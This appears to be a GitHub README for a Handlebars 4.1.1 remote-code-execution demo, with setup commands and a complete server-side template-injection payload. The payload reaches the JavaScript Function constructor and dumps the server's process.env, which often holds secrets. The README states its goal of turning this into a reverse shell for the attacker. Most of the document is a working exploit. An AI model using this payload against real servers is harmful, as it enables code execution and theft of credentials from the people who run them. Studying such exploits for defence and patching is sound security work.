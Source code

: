 # Handlebars 4.1.1 RCE demo

This repository is intended to serve as a handlebars.js RCE demo. The goal is to try to figure out how this PoC code can be converted into a reverse shell for the attacker.

Inspired by this article:  
http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html

## Setup

```
npm i
node server.js
```

## POC

Use the following payload as a PoC:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return JSON.stringify(process.env);"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
